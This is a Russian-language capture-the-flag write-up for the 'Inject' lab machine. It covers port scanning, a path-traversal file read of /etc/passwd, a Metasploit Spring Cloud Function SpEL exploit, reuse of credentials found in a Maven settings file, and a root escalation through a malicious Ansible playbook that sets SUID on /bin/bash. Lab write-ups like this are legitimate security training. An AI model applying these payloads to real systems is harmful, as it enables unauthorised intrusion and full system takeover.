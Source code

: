 # Inject
:white_check_mark:  [**Spring_cloud_function_spel_injection**](#Spring_cloud_function_spel_injection)

:white_check_mark:  [**Ansible yml file (privesc)**](#Ansible_yml_file)

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV inject.htb
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница сайта:

![](../assets/Inject/1.png)

На данной странице мы можем найти вкладку для загрузки файлов. Перейдем по ней.

![](../assets/Inject/2.png)

Попробуем прокинуть файл php-revershe-shell.php. Но мы получим ошибку и сообщение, что загружаются только картинки. 

![](../assets/Inject/3.png)

Переименуем файл в php-revershe-shell.php.jpg и снова загрузим файл. Файл успешно загрузился

![](../assets/Inject/4.png)

Но у нас не получится открыть данный файл.

![](../assets/Inject/5.png)

Вместо этого мы можем обнаружить LFI. Мы сможем прочитать /etc/passwd:

```
http://inject.htb:8080/show_image?img=../../../../../../etc/passwd
```

![](../assets/Inject/6.png)

Также мы можем обнаружить, что мы можем не только читать файлы, но и просматривать директории.

![](../assets/Inject/7.png)

<a name="Spring_cloud_function_spel_injection"></a>

## Spring_cloud_function_spel_injection

Просмотрев файлы, мы можем обнаружить, что сайт использует Spring 2.6.5.

![](../assets/Inject/8.png)

Воспользуемся metasploit. В поиске прописываем spring и выбираем эксплоит **spring_cloud_function_spel_injection**.

![](../assets/Inject/9.png)

Выставляем нужные параметры и запускаем эксплоит.

![](../assets/Inject/10.png)

В директории **/home/frank/.m2** мы можем обнаружить файл setting.xml.

![](../assets/Inject/11.png)

В данном файле мы можем найти данные пользователя

![](../assets/Inject/12.png)

Логинимся под пользователя phil.

![](../assets/Inject/13.png)

<a name="Ansible_yml_file"></a>

## Ansible yml file(privesc)

Закинем на машину linpeas и запустим скрипт. В выводе скрипта мы можем обнаружить ansible файл playbook_1.yml.

![](../assets/Inject/14.png)

На [сайте](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/) и [сайте](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/) мы можем найти способ эксплуатации ansible.

Код эксплоита:

```
- hosts: localhost
        tasks:
          - name: Evil
            ansible.builtin.shell: |
              chmod u+s /bin/bash
            become: true
```

![](../assets/Inject/15.png)

Закидываем файл в директорию:

```
mv playbook2.yml /opt/automation/tasks/
```

Через некоторое время прописываем команду **bash -p** и получаем root.

![](16.png)

![](../assets/Inject/16.png)
